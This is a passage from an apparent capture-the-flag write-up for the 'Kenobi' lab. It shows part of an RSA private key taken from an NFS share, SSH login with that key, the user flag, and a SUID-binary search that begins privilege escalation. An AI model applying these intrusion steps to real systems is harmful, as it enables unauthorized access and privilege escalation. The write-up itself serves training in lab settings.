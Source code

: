 ```bash
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----
```

With the key in hand, I secured it and used it to SSH into the machine.

```bash
root@ip-10-10-216-44:~/workspace# cp /mnt/kenobiNFS/tmp/id_rsa .
root@ip-10-10-216-44:~/workspace# chmod 600 id_rsa
root@ip-10-10-216-44:~/workspace# ssh -i id_rsa kenobi@10.10.253.8
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ cat /home/kenobi/user.txt
d0b0f3f53b6caa532a83915e19224899
```

## Privilege Escalation

With access to the Kenobi user account, it was time to escalate privileges and gain root access. The usual method here is to check for SUID binaries that may allow execution as the root user.

```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
```